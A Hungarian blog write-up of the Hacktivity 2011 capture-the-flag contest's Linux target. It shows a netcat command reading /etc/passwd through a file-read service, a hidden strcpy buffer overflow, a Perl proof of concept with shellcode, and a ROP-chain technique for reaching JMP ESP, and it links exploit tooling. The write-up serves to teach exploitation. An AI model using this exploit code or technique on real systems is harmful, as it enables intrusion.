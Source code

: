 Hacktivity 2011 CtF leírás - 1. rész (Jose Luis Torrente)
=========================================================

Eredeti publikálás dátuma: 2011-09-20 18:16:24

Most hétvégén került megrendezésre a Hacktivity konferencia, és ezzel együtt jelen írás témája, a Capture the Flag verseny is. A célpont három gép volt: egy Linux-os, egy OpenBSD-s, illetve egy Windows 7-es. Csapatunknak sikerült felhasználói hozzáférést szerezni mindhárom gépen, azonban a root jogot csak az OpenBSD-s gépen szereztük meg - így a másik kettő rootolásáról nem lesz szó.

A három célpont három post-ban fog szerepelni; most a Linux-os géppel való szívásainkat mutatom meg. A selejtezővel ellentétben itt nem konkrét IP-címeket kaptunk, hanem egy tartományt, amiben meg kellett keresnünk a célpontokat. Az ezen post témáját adó Linux-os gép volt talán az utolsó, amit megtaláltunk, ugyanis az egyetlen nyitott portja a 2011-es UDP volt - az UDP scan meg marha lassú.

Az említett porton egy szolgáltatás figyelt, aminek tetszőleges stringet küldve kaptunk egy kis segítséget:

```
[0x00 ~]$ nc -u localhost 2011
adfadsf
ctfserver version 1.0 - Hacktivity 2011
GETFILE <filename>
LISTDIR <dir>
ACCESSV <id>
PROMPTW <file>
PUTFILEX <target>
```

Cool, tudjuk a kiadható parancsokat. Hamar kiderült, hogy ezek közül három nem működik:

```
ACCESSV 0
Command not implemented!
PROMPTW asd
Command not implemented!
PUTFILEX asd
Seriously? Try harder! Command not implemented!
```

Elsőre úgy tűnt, hogy a GETFILE sem megy, azonban kiderült, hogy csak a netcat által elküldött EOF a zavaró tényező. A következő módon küldve a parancsot már működött a móka:

```
[0x00 ~]$ echo -n "GETFILE /etc/passwd" | nc -u localhost 2011
```

Tehát ekkor már tudtunk direktorit listázni, illetve fájlokat letölteni, így a felhasználói szintű proof.txt megszerzése innen már egyszerű volt.

A szerver rootra töréséhez kellett volna szereznünk egy távoli hozzáférést a géphez. Kézenfekvő volt, hogy letöltjük a szervert, és megpróbálunk benne kihasználható hibát keresni.

Ez meg is történt, elkezdtük SPIKE-kal fuzzolni a programot. Nagy örömünkre sikerült kicsikarni belőle SEGFAULT-ot. Sajnos hamar kiderül, hogy ha a LISTDIR-rel nem létező direktorit szeretnénk listázni, akkor elszáll a progi, viszont ez a hiba nem volt kihasználható.

Belenézve a binárisba találtunk egy gyanús stringet:

```
[0x00 CTF]$ strings ctfserver
...
PUTFILEX  
PUTFILEX command received!
Seriously? Try harder! Command not implemented!
STRCPYT command received!
Child process created!
...
```

STRCPYT: erről nem szól a help, valószínűleg itt lesz valami turpisság. A fájlt megvizsgálva readelf-fel találtunk egy gyanús nevű függvényt:

```
[0x00 CTF]$ readelf -s ctfserver
...
79: 00000000     0 FUNC    GLOBAL DEFAULT  UND fwrite@@GLIBC_2.0
80: 00000000     0 FUNC    GLOBAL DEFAULT  UND fprintf@@GLIBC_2.0
81: 0804a7b8     0 NOTYPE  GLOBAL DEFAULT  ABS __bss_start
82: 08048974    31 FUNC    GLOBAL DEFAULT   14 h4cking
83: 0804a7c4     0 NOTYPE  GLOBAL DEFAULT  ABS _end
84: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@@GLIBC_2.0
...
```

A szerver disassemblyjét átnézve kiderül, hogy ha a program az STRCPYT parancsot kapja, akkor a neki megadott paraméterrel meghívja a h4cking függvényt. Az pedig csinál egy strcpy-t, természetesen méretellenőrzés nélkül. Ez innen direkt EIP felülírás, amit tök egyszerű exploitálni. Elvileg. Ez a kis mocsok még úgy is szivatós, ha eltekintünk a ténytől, hogy GDB-vel voltunk kénytelenek mókolni vele :)

A gondok ott kezdődtek, hogy a binárisban nem volt sem JMP ESP, sem olyan utasítás, ROP gadget, ami valami hasonlót csinál. Legalábbis se kézzel, se msfelfscan-nel nem találtunk. A saját kis virtuális Debian-omon persze jól működött az exploit akkor is, ha az EIP-et a stack címével írtam felül. Kicsi volt az esély, hogy ez így menni fog a célpont gépen, azért kipróbáltuk, sajnos nem ment. Azért megmutatom a PoCkot:

```
#!/usr/bin/perl

my $padding = "STRCPYT " . "A"x44;
my $eip = "\\x81\\xa5\\xf1\\xb7";
my $nopsled = "\\x90"x10;

my $buf = "" .
"\\xda\\xc5\\xd9\\x74\\x24\\xf4\\xba\\x87\\x2c\\x6d\\xee\\x5e\\x31\\xc9" .
"\\xb1\\x12\\x83\\xee\\xfc\\x31\\x56\\x16\\x03\\x56\\x16\\xe2\\x72\\x1d" .
"\\xb6\\x19\\x9f\\x0d\\x0b\\xb5\\x35\\xb0\\x02\\xd8\\x79\\xd2\\xd9\\x9b" .
"\\x22\\x45\\x8a\\x5b\\x7c\\x78\\x75\\x3a\\x14\\x6a\\xd5\\xa4\\xb7\\xe6" .
"\\xf5\\x79\\x67\\x7e\\x14\\x3a\\xed\\xe6\\x8f\\x70\\x71\\xbf\\xa8\\x52" .
"\\xc1\\x7f\\x7a\\xe4\\x68\\xf9\\x7d\\xb5\\x02\\xd6\\x52\\x45\\xba\\x40" .
"\\x82\\xcb\\x53\\xff\\x55\\xe8\\xf3\\xac\\xec\\x0e\\x43\\x59\\x22\\x50";

print $padding . $eip . $nopsled . $buf;
```

Később ráeszméltünk, hogy a szerver nem statikusan van linkelve, így próbáltunk az általa használt libekben megfelelő utasítást találni. Egy szem CALL ESP-t találtunk a libc-ben. Átírtuk az exploitot, debuggerben szépen ment, anélkül nem. Sajnos ekkor már nagyon a verseny vége felé jártunk, nem is sikerült megoldást találnunk.

Persze nem hagyott nyugodni a dolog, otthon folytattam az exploit-írást. Ekkor derült ki, hogy egy stock Debian Squeeze telepítésen a libc címe randomizálva van, szóval onnan hiába próbálot CALL ESP-t hívogatni.

![random libc address](img/linux/debian_aslr.png)

SIDENOTE: Marha sokat szívtam azzal, hogy űgy tűnt, a GDB-m find parancsa nem igazán működik jól. Van bizonyítékom is, nem csak fáradt voltam:

![GDB find strange behaviour](img/linux/gdb_find_wtf_2.png)

Végül aztán a következő megoldással keresgéltem a programban:

![GDB find workaround](img/linux/found_call_esp.png)

Megoldásnak maradt az, hogy return-oriented programming használatával valahogy lefuttassam a shellcode-ot. Ez sem bizonyult egyszerűnek, lévén alig van pár használható gadget a binárisban. Nem részlezem, milyen utakat jártam be, milyen megoldásokat próbáltam ki, nagyon hosszú és unalmas lenne :)

Helyette itt a módszer, ami végülis működött: Maga a bináris mindig ugyanott van a memóriában, szóval onnan lehet válogatni címeket. A ROP gadget-ek kereséséhez a ropeme nevű programot használtam, illetve a megoldásom alapötlete is a ropeme alkotóitól ered.

Kerestem egy címet, ahol 0xff, illetve egyet, ahol 0xe4 található (ezek ketten együtt egy JMP ESP-t alkotnak) úgy, hogy belátható távolságon belül van utánuk 0x00\. Tudtam, hogy a progi hívogat strcpy függvényt, megnéztem annak a címét a PLT (Procedure Linkage Table)-ben.

![strcpy@PLT](img/linux/strcpy.png)

Ezeken kívül még szükség volt egy POP # POP # RET gadgetre, plusz egy írható memóriacímre. Szerencsére ilyeneket is találtam.

Ezekből a komponensekből össze lehet rakni egy olyan ROP láncot, ami a kiválasztott memóriacímre strcpy-zza a 0xff-et, majd rögtön utána a 0xe4-et, ezzel létrehozva egy JMP ESP-t. Utána már "csak" annyi dolgunk marad, hogy erre a címre ugorjunk.

A strcpy-s ROP lánc lefutása után az EAX pont az utolsó másolt bájtra mutat, ennél egyel kisebb kellene, hogy legyen. Ez sem volt egyszerű feladat, a bináris krónikus gadget-hiánya miatt. Aztán végülis sikerült találni egy ADD AL, 0x5b # pop EBP # RET sorozatot, amit 45-ször alkalmazva sikerült egyel csökkenteni az EAX értékét. Innen már csak egy CALL EAX utasításnyira voltam a sikertől - szerencsére ilyet találtam.

Tehát összefoglalva: strcpy utasításokkal egy írható területre írok egy JMP ESP-t, majd odaugrok, az pedig lefutva a shellcode-omra ugrik. Így leírva tök egyszerű az egész, megcsinálni nem volt ennyire triviális :D

A kész exploit egy Metasploit modul formájában megtalálható ezen a linken:

 - [ctfserver.rb](files/linux/ctfserver.rb)

Felmerülhet a kérdés, hogy ha már odaírtam a memóba egy JMP ESP-t, miért nem írtam oda az egész shellcode-ot. A válasz rém egyszerű: nem volt rá hely. A buffer maximális mérete 1023 byte, és egy byte strcpy-zásához szükséges 16 byte, plusz ugye még kell hely a többi gadget-nek is.

Mivel nem minden esetben ilyen szűkös a hely, jó ötletnek tartottam egy kis tool megírását, ami tetszőleges shellcode-ra megcsinálja ezt a strcpy-s ROP láncot. Az msfelfscan progit használtam alapként, illetve a Rex::ElfScan::Scanner-t egészítettem ki egy új osztállyal. innen letölthetők a források:

 - strcpychain](files/linux/strcpychain) - msf3 direktoriba
 - [scanner.rb](files/linux/scanner.rb) - msf3/lib/rex/elfscan direktoriba

A proginak meg kell adni a shellcode-ot, egy POP # POP # RET címet, a strcpy PLT-beli címét, illetve az írható memória címét. Ruby, illetve Python szintakszisban, illetve sima stringként képes legyártani a láncot.

Persze ha ez meglett volna a versenyen, még mindig csak user szintű shellünk lett volna, a rootra törésért valószínűleg meg kellett volna szenvednünk :D Terveim szerint a következő részben az OpenBSD-s célpontot mutatom be. Ez talán még a héten meg fog történni :)
